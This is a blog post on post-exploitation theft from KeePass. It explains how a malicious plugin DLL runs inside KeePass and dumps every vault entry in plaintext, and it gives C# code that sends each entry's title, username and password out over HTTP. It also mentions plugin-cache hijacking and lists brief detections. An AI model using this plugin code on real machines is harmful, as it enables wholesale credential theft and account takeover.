






# **Dumping KeePass**


### tl;dr

Using KeePass's extension feature it is very simple to dump the entire DB and extract it. Simply put, a single DLL on file disk and extract the entire DB in plaintext. While I focus on Windows, this technique can easily be ported to other OS's

Note: **I do not believe any of this is novel or new, just not widely used.** I spoke to a few friends and they were not aware of this particular TTP against KeePass. Of course after I completed this research I was made aware of the [KeeFarce Reborn](https://github.com/d3lb3/KeeFarceReborn/tree/main) repository. However, their tool uses the export function, which I explicitly avoided since it has been known to be used on other dumping tools.

### Introduction

Password Vaults continue to rise in popularity and KeePass is one of the more popular tools used. I have already taken a look at [1Passwords Chrome Extension](https://syntax-err0r.github.io/1Password_Extension_PostEx.html) and now wanted to look at a thick client on Windows. A lot of research has been put into KeePass such as [KeeThief](https://github.com/GhostPack/KeeThief) but I ultimately wanted a way to perform the extraction without injecting into the process.

I will detail one of the many methods/avenues I tried before ultimately landing on the "Easy Way". All the steps/information is for a default setup of KeePass. **I leave some steps and a full PoC out as it is worthwhile to go through everything yourself.** 

### Methodology/Failed Attempts

My initial goal was to be in a remote process context, scrape the memory for keepass.exe, and decrypt the credentials which I thought would be possible because ["KeePass uses the Windows DPAPI"](https://keepass.info/help/base/security.html). So I fired up dnSpy and began to debug the process. I set breakpoints on interestingly named functions like "Decrypt", "ReadData", etc. However I quickly noticed under the hood it was not the traditional DPAPI that can be used on a users entire logon context like Chrome used to use. Instead it was using [SystemFunction041](https://learn.microsoft.com/en-us/windows/win32/api/ntsecapi/nf-ntsecapi-rtldecryptmemory).



Additionally, when calling that API it takes a Flag to identify the scope of the encryption/decryption and ties it to the process instead of the logon session. 



With this in mind I thought about several ideas such as patching the process to use the LOGON flag instead of the PROCESS flag, patching the exe on disk to do the same, etc. but all ideas involved breaking the exe certificate or injection in some form, which is what I originally wanted to avoid. My last ditch effort on this was to duplicate the KeePass Process Token and attempt the RTLDecryptMemory function however this also failed, and after speaking to a friend much more versed on Windows Internals I decided to abandon this path. 

### Easy Way

While on KeePass's website I noticed the [plugins](https://keepass.info/plugins.html) page. After clicking on a few projects and reviewing the documentation it was clear these were all just DLL's that use the KeePass.exe C# Methods [under the hood](https://keepass.info/help/v2_dev/plg_index.html). So the plan forward was clear - create a KeePass plugin that leverages the same decryption methods KeePass use and since we are in the same process we will be able to call RTLDecryptMemory with the same flags (or could it be even easier). With a breakpoint on the SystemFunction041 I inspected the callstack and noticed a call from "OnEntryCopyPassword" that gets called when you right click on an entry and "copy Password".



Looking at that function you will see a "GetSafe" function being called for "Password".



Working backwards we see the String is a part of a "PwEntry". Continuing to work backwards you will eventually see PwEntry is essentially an array of the entries within the open Database. Using their same code we can effectively use KeePass as a reference and dump entries. I provide a sample code below but you will need to work on getting the proper methods/variables called. This then just quickly sends the information to a remote host. 

```
    foreach (var entry in entries)
    {
        var title = entry.Strings.GetSafe("Title").ReadString();
        var notes = entry.Strings.GetSafe("Notes").ReadString();
        var url = entry.Strings.GetSafe("URL").ReadString();
        var username = entry.Strings.GetSafe("UserName").ReadString();
        var password=entry.Strings.GetSafe("Password").ReadString();
        string query = string.Format(
    "title={0}&notes={1}&url={2}&username={3}&password={4}",
    HttpUtility.UrlEncode(title),
    HttpUtility.UrlEncode(notes),
    HttpUtility.UrlEncode(url),
    HttpUtility.UrlEncode(username),
    HttpUtility.UrlEncode(password)
);

        string fullUrl = "http://127.0.0.1:8080/?" + query;

        using (WebClient client = new WebClient())
        {
            client.DownloadString(fullUrl);
        }
    }
```



### Other Interesting Tidbits

One of the drawbacks of this method is if KeePass is installed in Program Files it does require Local Admin to install. Interestingly though if a user has already installed a plugin using the native PLGX extension it is possible to hijack this and install it from a non local administrator [Source](https://blog.quarkslab.com/post-exploitation-abusing-the-keepass-plugin-cache.html).

In addition I noticed once a user decrypts the password in KeePass, the password is stored in plaintext which introduces the possibility to just scrape memory. 



### Detections

- FileWrite to the KeePass extensions folder by anomalous processes
- Low prevalence (or any) extensions
